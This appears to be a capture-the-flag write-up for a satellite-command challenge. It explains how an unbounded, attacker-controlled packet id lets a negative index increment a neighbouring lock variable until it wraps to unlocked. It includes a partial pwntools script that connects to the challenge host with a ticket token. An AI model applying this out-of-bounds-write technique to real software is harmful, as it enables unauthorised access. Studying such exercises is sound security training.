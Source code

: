 Packet structure is specified in the following struct:
```c
typedef struct command_header{
    short version : 16;
    short type : 16;
    command_id_type id : 32;
} command_header;
```

We notice that in `handle_message`, there is a potential to print the flag:
```c
const char* handle_message(command_header* header){
    command_id_type id = header->id;
    // Based on the current state, do something for each command
    switch(lock_state){
        case UNLOCKED:
            if (id == COMMAND_GETKEYS)
                return std::getenv("FLAG");
            else
                return "Command Success: UNLOCKED";
        default:
            if (id == COMMAND_GETKEYS)
                return "Command Failed: LOCKED";
            else
                return "Command Success: LOCKED";
    }

    // Forward command to antenna
}
```

In order to take the path that returns the flag, `lock_state` must be set to `UNLOCKED` and the `id` of our packet must be `COMMAND_GETKEYS`.

The `lock_state` is declared right before a log buffer:
```c
unsigned int lock_state;
char command_log[COMMAND_LIST_LENGTH];
```

In `main` it is set to `LOCKED` and there are no other references so we suspect there may be a buffer overflow vulnerability here.

We notice that inside `server_loop`, the program tries to log how many times each type of packet has been seen via `command_log[header->id]++;` However, `header->id` is both attacker-controlled and unbounded. Therefore, we can specify a negative index to overwrite bytes of the flag.

Since `command_log` is a `char` array, we only need to increment 255 times before the byte overflows and `lock_state` becomes 0 (i.e. unlocked).

Our solution script is given below.
```python
from pwn import *
import struct

s = remote('lucky-tree.satellitesabove.me', 5008)
s.sendafter('please:', 'ticket{whiskey985814alpha2:GLlywMhvIK3cJe9DCpZoLKyCQm-2G48Uy1qUJSK76StCQgdf8w1LDGFpFOXyNrFehQ}\n')

r = s.recvline()
r = s.recvline()

addr = r.split(b'udp:')[1].strip().decode('ascii')
addr, port = addr.split(':')
print(addr, port)

def cmd(version, type, id):
    return struct.pack('<H', version) + struct.pack('<H', type) + struct.pack('<I', id)
```